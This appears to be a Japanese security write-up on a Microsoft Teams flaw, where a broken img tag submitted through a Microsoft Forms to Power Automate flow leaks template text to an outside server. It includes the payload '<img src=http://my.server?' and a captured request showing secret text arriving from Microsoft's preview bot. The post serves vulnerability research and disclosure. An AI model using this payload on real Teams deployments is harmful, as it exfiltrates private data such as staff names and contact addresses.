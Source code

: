 ```html
<img class="ts-image loading" target-src="undefined" lazy-load="true" data-tid="messageBodyImageSrc" src="undefined" width="250" height="250">
略
を受信しました。
```
Microsoft Forms由来のテキストがimgタグと認識されてしまっています。
ただし、イベントハンドラや不正なsrcは削除されているようです。
つまりイベントハンドラ削除など多段階のセキュリティ機構がサーバサイドで行われているようです。
これで打つ手がないでしょうか？
試しに、以下のような壊れたimgタグを送信してみます。
```html
<img src=http://example.com?
```
ソースは以下のようです(重要部分のみ抜粋)。
```html
<img class="ts-image loading" target-src="https://jp-prod.asyncgw.teams.microsoft.com/urlp/v1/url/content?url=http%3a%2f%2fexample.com%3f%e3%82%92%e5%8f%97%e4%bf%a1%e3%81%97%e3%81%be%e3%81%97%e3%81%9f%e3%80%82%3c%2fp" lazy-load="true" data-tid="messageBodyImageSrc" src="https://jp-prod.asyncgw.teams.microsoft.com/urlp/v1/url/content?url=http%3a%2f%2fexample.com%3f%e3%82%92%e5%8f%97%e4%bf%a1%e3%81%97%e3%81%be%e3%81%97%e3%81%9f%e3%80%82%3c%2fp" width="250" height="250">
```
先ほどと打って変わってsrcにURLが見られます。
パーセントエンコーディングをデコードすると以下のようでした。  
```text
デコード前：http%3a%2f%2fexample.com%3f%e3%82%92%e5%8f%97%e4%bf%a1%e3%81%97%e3%81%be%e3%81%97%e3%81%9f%e3%80%82%3c%2fp
デコード後：http://example.com?を受信しました。</p
```
Microsoft Power Automateに設定したテンプレートのテキストがURLとして認識されてしまっています。
このようにして不完全なimgタグでのバグを発見しました。
これは脆弱性に発展しないのでしょうか？
ここでimgタグのURLとして、自身のサーバを指定するとクエリとして「`を受信しました。</p`」が取得できることに気づきます。
もしこの部分に重要な文字列が含まれていたら、imgのsrcに重要な文字列を含んだURLを埋め込めることになります。
運用では重要な文字列として担当者名や連絡先アドレスなどが書かれているケースが想定できます。
また、imgタグはMicrosoft Temas内で閲覧できる形で埋め込まれています。
つまりユーザがこのimgタグを読み込んだ時点で、Microsoft Power Automateに設定したテンプレートのテキストの一部がリークされます。
実際にMicrosoft Power Automateのテンプレートを以下のように設定し、試してみます。
```text
[Forms Text]Secret_Text_123456789
```
ペイロードは自身のサーバを`my.server`とし、以下になります。
```html
<img src=http://my.server?
```
結果として次のようなリクエストを受け取りました(重要部分のみ抜粋)。
```text
Headers
host: my.server
user-agent: Mozilla/5.0 (Windows NT 6.1; WOW64) SkypeUriPreview Preview/0.5 skype-url-preview@microsoft.com
accept-language: en-US
accept-encoding: gzip, deflate
Query
Secret_Text_123456789</p
```
MicrosoftのBotが画像を確認するため、先にクロールしに来たようです。
この挙動は情報流出の脆弱性といえるでしょう。
さらに、このリスクのほかに閲覧したタイミングの把握や、画像キャッシュの有無などXS-Leaksなどの手法に転用できることがわかります。
